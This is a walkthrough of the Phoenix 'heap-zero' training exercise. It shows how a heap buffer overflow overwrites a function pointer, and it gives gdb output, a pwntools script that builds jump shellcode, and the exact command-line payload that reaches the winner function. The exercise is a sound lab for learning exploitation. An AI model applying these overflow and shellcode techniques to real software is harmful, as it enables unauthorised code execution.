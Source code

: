 # Heap

There is multiple way of controlling the flow of a program, by overriding some part of the memory. In this section we will focus on stack memory overflow.

By example, you can override the content of the heap, to update the GOT.
To got further, you have to understand the structure on how malloc manage the heap allocation: https://sourceware.org/glibc/wiki/MallocInternals

For those examples, you will need to install Phoenix: https://exploit.education/phoenix/getting-started/

## Heap Zero

### Exercise

Description: https://exploit.education/phoenix/heap-zero/

### Solution

First we need to know where the function `winner` is implemented: `0x400abd`

```
$ gdb -batch -ex 'file /opt/phoenix/amd64/heap-zero' -ex 'disassemble winner'
Dump of assembler code for function winner:
   0x0000000000400abd <+0>:     push   %rbp
...
```

The function pointer gets overrided by `NNNNOOO`:
```
$ ./heap-zero AAAAAABBBBBBCCCCCCDDDDDDEEEEEEFFFFFFGGGGGGHHHHHHIIIIIIJJJJJJKKKKKKLLLLLLMMMMMMNNNNNNOOOOOOOO
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef5010, fp is at 0x7ffff7ef5060, will be calling 0x4f4f4f4f4e4e4e4e
Segmentation fault (core dumped)
```

> Sadly, the 64bit version of this challenge, is more complicated, as it contains null byte, preventing strcpy to proceed with our redirection.

To overcome this issue, we will inject a small binary shellcode, in our buffer, that jump to the correct address:

```asm
push 0x1010101 ^ 0x400abd
xor dword ptr [rsp], 0x1010101
ret
```

We need to override the pointer address to the begining of our data buffer, where our shellcode is injected:

```py3
# You need to install pwntools, to import pwnlib
import pwnlib
import struct

BUFFER = 0x7ffff7ef5010
WINNER = 0x400abd

pwnlib.context.arch = 'amd64'
shellcode = pwnlib.shellcraft.amd64.push(WINNER)
shellcode += pwnlib.shellcraft.amd64.ret()

shellcode = pwnlib.asm.asm(shellcode, arch='amd64')

buf = shellcode + b"." * (80 - len(shellcode))
buf += struct.pack("<Q", BUFFER)

print(buf)
```

We send the payload to our command line:
```
./heap-zero `echo -ne 'h\xbc\x0bA\x01\x814$\x01\x01\x01\x01\xc3................................................
...................\x10P\xef\xf7\xff\x7f\x00\x00'`
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef5010, fp is at 0x7ffff7ef5060, will be calling 0x7ffff7ef5010
Congratulations, you have passed this level
```
